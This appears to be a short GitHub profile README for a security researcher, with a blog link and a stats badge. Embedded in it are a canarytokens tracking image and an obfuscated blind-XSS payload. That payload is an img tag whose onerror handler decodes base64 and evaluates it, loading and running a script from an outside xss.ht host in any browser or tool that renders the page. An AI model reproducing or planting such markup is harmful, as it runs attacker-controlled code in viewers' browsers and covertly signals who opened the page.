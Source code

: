 ### Hacking Things and Writing Reports

- [Blog](https://blog.zsec.uk)

<img src="http://canarytokens.com/static/terms/images/bk1uvfkx7mwdfikpsxmhg5sj0/contact.php" >
<img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vemVyby54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>

![ZephrFish's github stats](https://github-readme-stats.vercel.app/api?username=ZephrFish&show_icons=true&title_color=fff&icon_color=79ff97&text_color=9f9f9f&bg_color=151515)

